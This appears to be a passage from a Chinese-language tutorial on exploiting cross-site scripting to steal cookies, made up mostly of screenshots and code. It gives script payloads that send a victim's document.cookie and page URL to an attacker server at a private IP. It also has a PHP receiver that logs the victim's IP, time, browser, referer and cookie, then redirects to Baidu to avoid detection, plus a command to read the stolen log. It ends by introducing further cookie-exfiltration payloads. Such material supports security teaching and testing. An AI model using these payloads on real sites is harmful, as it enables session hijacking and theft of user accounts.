 ![image-20240820173100787](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820173100787.png)

```js
<script>window.open('http://192.168.70.4:80/cookie2.php?cookie='+document.cookie+'&&url='+document.location.href)</script>
```

![image-20240820174010972](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820174010972.png)

![image-20240820174033463](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820174033463.png)

```bash
cat /var/www/html/cookie.txt
```

![image-20240820174105152](https://image.201068.xyz/assets/23_3.XSS利用/image-20240820174105152.png)

#### 2、获取IP、时间、UA、Referer、cookie

```
vim /var/www/html/cookie3.php
```

`cookie3.php`

```php
<?php

$cookie = $_GET['cookie']; //以GET方式获取cookie变量值
$ip = getenv ('REMOTE_ADDR'); //远程主机IP地址
$time=date('Y-m-d g:i:s'); //以“年-月-日 时：分：秒”的格式显示时间
$referer=getenv ('HTTP_REFERER'); //链接来源
$agent = $_SERVER['HTTP_USER_AGENT']; //用户浏览器类型

$log = fopen('cookie.txt', 'a'); //打开cookie.txt，若不存在则创建它
fwrite($log," IP: " .$ip. "\n Date and Time: " .$time. "\n User Agent:".$agent."\n Referer: ".$referer."\n Cookie: ".$cookie."\n\n\n"); //写入文件
fclose($log); //关闭文件

header("Location: http://www.baidu.com")//重定向到baidu，防止发现
?>
```



```js
<script>window.open('http://192.168.70.4:80/cookie3.php?cookie='+document.cookie+'&&ip='+document.location.href)</script>
```



### 其他盗取cookie的方法

以下是一些常见的 XSS 的 Cookie 外带攻击语句：

#### 1、利用 document.cookie 获取当前域下所有 cookie 的值：
